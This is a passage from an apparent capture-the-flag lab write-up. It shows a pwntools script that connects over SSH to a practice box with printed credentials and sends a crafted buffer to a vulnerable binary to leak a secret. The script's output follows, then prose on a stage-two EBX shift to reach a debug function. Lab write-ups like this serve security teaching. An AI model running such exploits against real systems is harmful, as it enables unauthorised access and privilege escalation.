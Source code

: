     
    
    #!/usr/bin/env python3
    
    import re
    from pwn import *
    
    
    sshConn = ssh(host="10.10.10.27", user="xalvas", password="18547936..*")
    goodluck = sshConn.process("/home/xalvas/app/goodluck")
    fn = f"/tmp/{randoms(10)}"
    
    ## Stage 1 - Leak hey.secret
    log.info(f'Writing Stage 1 exploit to {fn}')
    sshConn.upload_data(b"A" * 8 + p32(0x80002FF8), fn)
    goodluck.sendline(fn)
    goodluck.recv(4096)
    goodluck.sendline("2")
    resp = goodluck.recv(4096).decode()
    secret = re.findall(r'debug info: (0x[0-9a-f]+)', resp)[0]
    log.success(f"Found secret: {secret}")
    

It works:

    
    
    root@kali# python3 rootpwn.py 
    [x] Connecting to 10.10.10.27 on port 22
    [+] Connecting to 10.10.10.27 on port 22: Done
    [*] xalvas@10.10.10.27:
        Distro    Ubuntu 16.04
        OS:       linux
        Arch:     i386
        Version:  4.4.0
        ASLR:     Disabled
        Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
    [x] Starting remote process '/home/xalvas/app/goodluck' on 10.10.10.27
    [+] Starting remote process '/home/xalvas/app/goodluck' on 10.10.10.27: pid 5001
    [+] Found secret: 0x1079d23
    

#### Stage 2 - Access Debug

Next I want to call option 3 with `hey` such that I can access the `debug`
function. I’ll need to have two conditions:

  * `protect == hey.secret`
  * `hey.admin != 0`

I can use option 4 to shift EBX again, so I can realign where the computer
thinks `hey`. This time, I’ll shift so that it tries to check `hey.secret` it
gets `hey.user` instead. I can control the first four bytes of `hey.user`, and
I leaked `hey.secret`, so I can set it to match, passing the first test.

![image-20200826060321674](https://0xdfimages.gitlab.io/img/image-20200826060321674.png)
